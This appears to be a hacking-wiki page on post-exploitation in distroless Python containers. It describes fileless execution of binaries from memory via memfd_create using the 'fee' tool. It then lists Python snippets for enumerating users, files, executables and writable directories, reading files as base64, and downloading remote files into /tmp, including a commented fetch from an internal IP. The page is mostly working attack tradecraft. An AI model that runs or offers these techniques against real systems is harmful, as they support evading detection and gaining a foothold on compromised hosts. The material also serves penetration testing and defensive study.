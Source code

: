 # Distroless python memory execution

## Exec from memory

Using the project **[fee](https://github.com/nnsee/fileless-elf-exec)** it's possible to generate python code that can be used to execute a binary from memory using the **memfd_create syscall**.

```bash
fee /bin/ls > output.py
```

## Python utilities

### Get OS user
```python
import os
return os.getlogin()
```

### Get uname
```python
import platform
return platform.uname()
```

### List dir

```python
import json
from os import walk

def ls(dir_path):
    files = next(walk(dir_path), (None, None, []))
    return json.dumps({"root": files[0], "dirs": files[1], "files": files[2]})
```

### Find file

```python
def find_file(fname):
    import os
    found_files = []
    def get_files(path, fname):
        if not os.path.isdir(path) and fname in os.path.basename(path):
            found_files.append(path)
        
        if os.path.isdir(path):
            if not os.listdir(path):
                return
            else:
                for item in os.listdir(path):
                    try:
                        get_files(os.path.join(path, item), fname)
                    except Exception:
                        pass
    get_files("/", fname)
    return found_files
```

### Get executables

```python
import os
def find_executables(path):
    executables = []
    def _find_executables(path):
        if not os.path.isdir(path) and os.access(path, os.X_OK):
            executables.append(os.path.basename(path))
        
        if os.path.isdir(path):
            if not os.listdir(path):
                return
            else:
                try:
                    for item in os.listdir(path):
                        _find_executables(os.path.join(path, item))
                except PermissionError:
                    pass
    _find_executables(path)
    return executables
```

### Read file

```python
import base64
def read_file(path):
    with open(path, "rb") as f:
        return base64.b64encode(f.read()).decode()
```

### Get permissions of file

```python
import os
def get_perms(path):
    return oct(os.stat(path).st_mode)[-3:]
```

### Http request

```python
from urllib import request
def http_req(url):
    return request.urlopen(url).read().decode()
```

### Download and write file

```python
def dowrite(url):
    from urllib import request
    r = request.urlopen(url)
    fname = url.split("/")[-1]
    print(f"Writting in {fname}")
    with open(f"/tmp/{fname}", "wb") as f:
        f.write(r.read())
# dowrite("http://172.17.0.3:8989/usr/lib/aarch64-linux-gnu/libpcre2-8.so.0")
```

### Get writable folders

```python
import os
def find_writable_dir(path):
    writables = []
    def find_writable(path):
        if not os.path.isdir(path):
            return
        if os.access(path, os.W_OK):
            writables.append(path)
        if not os.listdir(path):
            return
        else:
            try:
                for item in os.listdir(path):
                    find_writable(os.path.join(path, item))
            except:
                pass
    find_writable(path)
    return writables
```